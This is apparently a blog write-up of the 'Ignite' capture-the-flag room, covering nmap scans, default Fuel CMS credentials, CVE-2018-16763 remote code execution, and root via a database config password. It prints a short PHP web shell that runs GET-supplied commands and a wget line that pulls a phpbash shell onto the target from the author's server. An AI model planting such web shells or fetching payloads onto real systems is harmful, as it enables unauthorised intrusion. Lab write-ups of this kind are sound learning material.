







Ignite - How I just need to git gud
by Leo Smith / p4p1
Created on: Sat. 18 april 2020 05:22:43 CEST
So this is very experimental for me, I am not very good at cyber security yet but I'm working hard to be so this post is dedicated to that :) so let's get to it!...
I started by scanning the living shit out of this box. It's the first time I'm going blind on a box without any prior knowledge of what I'm up against so it's hard for me to get a grip on things, more on that later :)
nmap x.x.x.x
Starting Nmap 7.60 ( https://nmap.org ) at 2020-04-17 21:38 CEST
Nmap scan report for 10.10.236.138
Host is up (0.024s latency).
Not shown: 970 closed ports, 29 filtered ports
PORT STATE SERVICE
80/tcp open http
Nmap done: 1 IP address (1 host up) scanned in 7.74 seconds
sudo nmap -O -sV --script vuln x.x.x.x
Starting Nmap 7.60 ( https://nmap.org ) at 2020-04-17 21:39 CEST
Pre-scan script results:
| broadcast-avahi-dos:
| Discovered hosts:
| 224.0.0.251
| After NULL UDP avahi packet DoS (CVE-2011-1002).
|_ Hosts are all up (not vulnerable).
Nmap scan report for 10.10.236.138
Host is up (0.061s latency).
Not shown: 999 closed ports
PORT STATE SERVICE VERSION
80/tcp open http Apache httpd 2.4.18 ((Ubuntu))
|_http-csrf: Couldn\t find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn\t find any DOM based XSS.
| http-enum:
| /robots.txt: Robots file
| /0/: Potentially interesting folder
| /home/: Potentially interesting folder
|_ /index/: Potentially interesting folder
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-stored-xss: Couldn\t find any stored XSS vulnerabilities.
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.60%E=4%D=4/17%OT=80%CT=1%CU=30000%PV=Y%DS=2%DC=I%G=Y%TM=5E9A07A
OS:8%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=10B%TI=Z%CI=I%II=I%TS=A)SEQ
OS:(SP=105%GCD=1%ISR=10A%TI=Z%CI=I%TS=A)OPS(O1=M54DST11NW7%O2=M54DST11NW7%O
OS:3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST11NW7%O6=M54DST11)WIN(W1=68DF%W2=
OS:68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(R=Y%DF=Y%T=40%W=6903%O=M54DNNSN
OS:W7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%D
OS:F=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O
OS:=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W
OS:=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%R
OS:IPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)
Network Distance: 2 hops
OS and Service detection performed. Please report any incorrect result
s at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 457.59 seconds
While those scans were running, I visited the page on my browser to see if it had a web app running.
Looking at this page thinking to myself wtf is this, I started researching fuel CMS and what it's for. I then figurerd out it's some kind of WordPress like web app. Looking a bit deeper in the project I understood it was running CodeIgniter a PHP5 framework. Knowing this there probably is an exploit out there for this. Going through exploit-db I found the CVE-2018-16763 exploit. Knowing from the code and the title of the attack it's a remote code execution one.
After figuring this out I went back to my nmap scans and saw that they were finished. I found the version of apache that they where using and some useful links provided by the nmap script. I started looking around the first page and saw some cool information I could use, I wrote down the different links from the page and at the bottom I found default login credentials.
When I saw this my brain finally clicked. The user didn't set anything up this is a default installation of Fuel CMS. I then decided to inspect the robots.txt file:
And to my big surprise I found a path for the fuel page. I then visited it and put the admin credentials in
Cool I found an entry point to the Fuel CMS :) without thinking further, (BIG NO NO!) I started thinking to myself "Oh shit! I'm gonna upload some php backdoor" so I rolled out a simple php script that I would use for that:
<?php
if (isset($_GET["cmd"])) {
echo exec($_GET["cmd"]);
}
phpinfo();
?>
But it didn't work, uploading a file on the server got me this error:
At that point I was confused as hell, my file was four fucking lines, how can it be too big?! But whatever I kept going and finally found a way to upload it by setting a few variables in the main dashboard of the server. Now trying to visit the page was an other story, when I visited it I got error 404 now that part is so confusing for me because on the admin panel it was there... Why?!?!? But OK so after doing a bit of research on the room I found out that I should probably be using the exploit I found on exploit-db instead of creating my own. LOL.
So after that I ran the script by swapping a few values around and removing their proxy settings inside of it, bang! I got a sweet shell.
cmd: whoami
systemwww-data
cmd: pwd
/var/www/html
Now I am not sharing a screenshot of my terminal because the script would print error messaged between each output, no clue why but who cares? It works :) Looking back at the write-up thinking this shell is terribly shit I see that this bloke uses phpbash.php what a genius so I downloaded the php file and put it on a web server and then ran a wget on the box to download the script.
wget http://x.x.x.x:8080/phpbash.php
I then tried to visit the page and yup it worked better than my shady script.
I then looked around for a bit on that shell and thought "wait, the second flag name is root.txt I need to be root!" so instead of looking for the first flag I started trying to do some privesc, so I typed sudo -l in the terminal and realized that I needed a tty so I wondered if I could just do a reverse ssh shell to my machine and go from there and after 100 failed tries I gave up and went to the home directory of the user and found the first flag :) cool. Now that that was done I decided to go back to messing around with tty's.
After a few hours I went nut's why the hell can't I figure this thing out and at that point I'm also starving to death (not the best of ideas LOL) so I looked back at the write-up I was on before and I saw that he managed to do it. So I was on the right track but I just didn't know how to do it. So after some hard understanding (copy-paste) I managed to get some progress
Now in the tty session I started going through all of the files on the system looking for some privescs but looking back at my research phase I saw all of the config links that I wrote down. I saw a MY_config one but nothing was there, even the config.php was useless. Bloody hell, at that point I felt like I was just wasting my time reading weird ass config files and then, the light, I displayed the content of the database config and I saw something beautiful!

So yeah hallelujah!! the root password! I then loged-in as root via the shell that was previously set up and yeah I finally finished this room.
Now looking back at this experience. There are a few sticking points I need to address so that I can progress faster. I need to look a lot deeper on how different stuff works. Spend a bit more time researching and trying to understand more about the services that are running out there. I also need to take my time a lot more and really relax while I do this. For me this is the hardest part I think because I am so used to being really efficient when I code for example. It's hard to take a step back and really take my time. I also need to work more on tty's and reverse shells. I did write in C a reverse shell but it was very basic. I am also really interested on how they work. I also need a more organized approach at pentesting I am really all over the place when I pentest so I need to find a better approach. I think I will acquire most of those points with time. I am still learning anyway :)
As usual, thank you for reading! Follow me on github and share the page to other pentesters so they can have a laugh ;)